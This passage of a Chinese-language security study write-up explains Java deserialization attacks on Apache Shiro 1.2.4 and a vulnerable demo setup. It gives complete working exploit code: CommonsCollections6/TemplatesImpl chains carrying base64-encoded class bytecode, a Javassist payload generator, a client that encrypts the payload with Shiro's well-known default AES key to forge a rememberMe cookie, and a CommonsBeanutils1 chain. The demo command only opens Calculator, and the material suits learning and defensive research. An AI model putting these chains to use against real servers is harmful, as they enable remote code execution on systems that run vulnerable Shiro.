	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:77)
	... 30 more
Caused by: org.apache.shiro.util.UnknownClassException: Unable to load class named [[Lorg.apache.commons.collections.Transformer;] from the thread context, current, or system/application ClassLoaders.  All heuristics have been exhausted.  Class could not be found.
	at org.apache.shiro.util.ClassUtils.forName(ClassUtils.java:148)
	at org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass(ClassResolvingObjectInputStream.java:53)
	... 65 more
```

找到异常信息的倒数第一行，也就是这个类：`org.apache.shiro.io.ClassResolvingObjectInputStream`。可以看到，这是一个`ObjectInputStream`的子类，其重写了`resolveClass`方法：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.apache.shiro.io;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import org.apache.shiro.util.ClassUtils;
import org.apache.shiro.util.UnknownClassException;

public class ClassResolvingObjectInputStream extends ObjectInputStream {
    public ClassResolvingObjectInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
    }

    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
        try {
            return ClassUtils.forName(osc.getName());
        } catch (UnknownClassException e) {
            throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
        }
    }
}
```

这个方法的作用为，如果接收到一个`ObjectStreamClass`对象`osc`，它包含了某个类的序列化描述。调用`ClassUtils.forName(osc.getName())`方法尝试根据`osc`提供的类名找到对应的`Class`对象。这一过程通常包括类的加载。

简单来说，读取序列化流的时候，读到一个字符串形式的类名，需要通过这个方法来找到对应的`java.lang.Class`对象。 对比一下它的父类，也就是正常的 ObjectInputStream 类中的 resolveClass 方法

```java
protected Class<?> resolveClass(ObjectStreamClass desc)
        throws IOException, ClassNotFoundException
    {
        String name = desc.getName();
        try {
            return Class.forName(name, false, latestUserDefinedLoader());
        } catch (ClassNotFoundException ex) {
            Class<?> cl = primClasses.get(name);
            if (cl != null) {
                return cl;
            } else {
                throw ex;
            }
        }
    }
```

区别就是前者用的是`org.apache.shiro.util.ClassUtils#forName`，（实际上内部用到了`org.apache.catalina.loader.ParallelWebappClassLoader#loadClass` ），而后者用的是Java原生的 `Class.forName`。所以问题就很明显了，也就是可能类加载的时候没有正确加载到，导致了失败。但是具体是什么原因呢，我们还是调试一下才清楚

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.govuln</groupId>
    <artifactId>shirodemo</artifactId>
    <version>1.0-SNAPSHOT</version>
    <packaging>war</packaging>

    <name>shirodemo Maven Webapp</name>
    <url>http://www.example.com</url>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>1.8</maven.compiler.source>
        <maven.compiler.target>1.8</maven.compiler.target>
    </properties>

    <repositories>
        <repository>
            <id>central</id>
            <name>Central Repository</name>
            <url>https://repo.maven.apache.org/maven2</url>
            <releases>
                <enabled>true</enabled>
            </releases>
            <snapshots>
                <enabled>false</enabled>
            </snapshots>
        </repository>
    </repositories>

    <dependencies>
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.2.4</version>
        </dependency>
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-web</artifactId>
            <version>1.2.4</version>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>3.1.0</version>
            <scope>provided</scope>
        </dependency>

        <dependency>
            <groupId>javax.servlet.jsp</groupId>
            <artifactId>jsp-api</artifactId>
            <version>2.2</version>
            <scope>provided</scope>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <dependency>
            <groupId>commons-logging</groupId>
            <artifactId>commons-logging</artifactId>
            <version>1.2</version>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.30</version>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-simple</artifactId>
            <version>1.7.30</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.85</version>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-jasper</artifactId>
            <version>9.0.85</version>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-websocket</artifactId>
            <version>9.0.85</version>
        </dependency>
    </dependencies>

    <build>
        <finalName>shirodemo</finalName>
        <pluginManagement>
            <plugins>
                <plugin>
                    <artifactId>maven-clean-plugin</artifactId>
                    <version>3.1.0</version>
                </plugin>
                <plugin>
                    <artifactId>maven-resources-plugin</artifactId>
                    <version>3.0.2</version>
                </plugin>
                <plugin>
                    <artifactId>maven-compiler-plugin</artifactId>
                    <version>3.8.0</version>
                </plugin>
                <plugin>
                    <artifactId>maven-surefire-plugin</artifactId>
                    <version>2.22.1</version>
                </plugin>
                <plugin>
                    <artifactId>maven-war-plugin</artifactId>
                    <version>3.2.2</version>
                </plugin>
                <plugin>
                    <artifactId>maven-install-plugin</artifactId>
                    <version>2.5.2</version>
                </plugin>
                <plugin>
                    <artifactId>maven-deploy-plugin</artifactId>
                    <version>2.8.2</version>
                </plugin>
            </plugins>
        </pluginManagement>
    </build>
</project>
```

再写个`Main.java`

```java
package Base.Unserialize.shiro;

import org.apache.catalina.startup.Tomcat;
import java.io.File;

public class Main {
    public static void main(String[] args) throws Exception {
        Tomcat tomcat = new Tomcat();
        tomcat.setPort(8080);

        String webappDirLocation = "/Users/admin/Downloads/JavaThings-master/shirodemo/src/main/webapp/";
        String warFile = webappDirLocation + "shirodemo.war";
        tomcat.addWebapp("", new File(warFile).getAbsolutePath());

        System.out.println("Configuring app with basedir: " + new File(".").getAbsolutePath());

        tomcat.start();
        tomcat.getServer().await();
    }
}
```



出异常时加载的类名为`[Lorg.apache.commons.collections.Transformer`; 。这个类名看起来怪，其实就是表示`org.apache.commons.collections.Transformer`的数组

也就是说如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误。这就说明了为什么`CommonsCollections6`无法利用了，因为其中用到了Transformer数组。不包含数组的链子之前也学过，CC2，写出如下POC

```java
package Base.Unserialize.shiro;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class CommonsCollections6_Bytecode {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, templates);
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        //outerMap.remove("test2");
        outerMap.clear();

        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(expMap);
        unserialize(data);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```

而为什么这里用`outerMap.clear();`而不是remove了，其实很简单，



还是之前学CC6的问题，因为之前我们CC6的链子是放入了一个key，但是现在因为我们要加载字节码，只能把`templates`放到`TiedMapEntry`里面，既然这样的话，我们要清理干净触发`transform`的话，`clear`再好不过了

完整调用栈如下

```java
at Base.Unserialize.Base.HelloTemplatesImpl.<init>(HelloTemplatesImpl.java:15)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:126)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.shiro.CommonsCollections6_Bytecode.unserialize(CommonsCollections6_Bytecode.java:53)
at Base.Unserialize.shiro.CommonsCollections6_Bytecode.main(CommonsCollections6_Bytecode.java:39)
```

现在回到shiro，我们只需要生成cookie就能完美解决了

```java
package Base.Unserialize.shiro;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class CommonsCollections666 {
    public byte[] getPayload() throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, templates);
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.clear();

        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(expMap);
        return data;
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```



不过我这么写的话是不好写命令的，先改一下CC6这类里面的方法等会用Javassist来直接通过类生成字节码

```java
package Base.Unserialize.shiro;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class CommonsCollections6666 {
    public byte[] getPayload(byte[] classBytes) throws Exception {

        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, templates);
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.clear();

        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(expMap);
        return data;
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```

P牛用javassist写了一个类，

```java
package Base.Unserialize.shiro;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.io.ClassResolvingObjectInputStream.*;

public class Client1 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Base.Unserialize.shiro.Evil.class.getName());
        byte[] payloads = new CommonsCollections6666().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

这样就很方便的获得字节码了

## CB

### 有CC依赖

前面学习CC链的时候学习了`java.util.PriorityQueue` ，它在Java中是一个优先队列，队列中每一个元素有自己的优先级。在反序列化这个对象时，为了保证队列顺序，会进行重排序的操作，而排序就涉及到大小比较，进而执行`java.util.Comparator`接口的`compare()`方法。 

故技重施，那么，我们还能找到其他可以利用的`java.util.Comparator`对象呢？

有的兄弟有的

`Apache Commons Beanutils`是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对 象（也称为JavaBean）的一些操作方法。来了解一下JavaBean

**JavaBean 的核心特点**

一个标准的 JavaBean 必须满足以下条件：

1. 必须是 `public` 类 （可以被外部访问）。
2. 必须有无参构造方法 （默认或显式定义）。
3. 属性私有化（`private`） ，并通过 `getXxx()` 和 `setXxx()` 方法访问 （符合 驼峰命名法 ）。
4. 可序列化（`implements Serializable`） （可选，但通常用于网络传输或持久化存储）。

```java
final public class Cat {
    private String name = "catalina";
    public String getName() {
    return name;
    }
public void setName(String name) {
    this.name = name;
    }
}
```

他包含了一个私有属性name，同时有getter和setter方法，`commons-beanutils`中提供了一个静态方法`PropertyUtils.getProperty`，让使用者可以直接调用任意JavaBean的getter方法，比如：

```java
PropertyUtils.getProperty(new Cat(), "name");
```

这么乍一看好像用处也不大，

commons-beanutils会自动找到name属性的getter方法，也就是`getName`，然后调用，获得返回值。除此之外， PropertyUtils.getProperty 还支持递归获取属性，比如a对象中有属性b，b对象中有属性c，我们可以通过 PropertyUtils.getProperty(a, "b.c"); 的方式进行递归获取。

通过这个方法，使用者可以很方便地调用任意对象的getter，适用于在不确定JavaBean是哪个类对象时使用。 当然，commons-beanutils中诸如此类的辅助方法还有很多，如调用setter、拷贝属性等，本文不再细说。

后面仔细想想就类似于反射，比如说

```java
BeanComparator comparator = new BeanComparator("outputProperties");
comparator.compare(templatesImpl1, templatesImpl2);
```

类似这样去改写CC2的话，就能够触发到`newTransformer()`从而反序列化。

那现在，我们需要找可以利用的 java.util.Comparator 对象，在commons-beanutils包中就存 在一个： `org.apache.commons.beanutils.BeanComparator`。 BeanComparator 是commons-beanutils提供的用来比较两个JavaBean是否相等的类，其实现了 java.util.Comparator 接口。我们看它的compare方法：

```java
public int compare(Object o1, Object o2) {
        if (this.property == null) {
            return this.comparator.compare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.comparator.compare(value1, value2);
            } catch (IllegalAccessException iae) {
                throw new RuntimeException("IllegalAccessException: " + iae.toString());
            } catch (InvocationTargetException ite) {
                throw new RuntimeException("InvocationTargetException: " + ite.toString());
            } catch (NoSuchMethodException nsme) {
                throw new RuntimeException("NoSuchMethodException: " + nsme.toString());
            }
        }
    }
```

可以很简单的知道，如果o1是一个`TemplatesImpl`对象，而 property 的值为 outputProperties 时，将会自动调用getter，也就是`TemplatesImpl#getOutputProperties()`方法，即可RCE

用Javassist去获得字节码，先传入一个没问题的对象(2)，且 property 为空

初始化时使用正经对象，，这一系列操作是为了初始化的时候不要出错。然后，我们再用反射将 property 的值设置成恶意的 outputProperties ，将队列里的两个1替换成恶意的 TemplateImpl 对象：

```java
package Base.Unserialize.shiro;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1 {
    public static void main(String[] args) throws Exception {
        //byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        //setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.shiro.Evil.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add(1);
        queue.add(1);

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

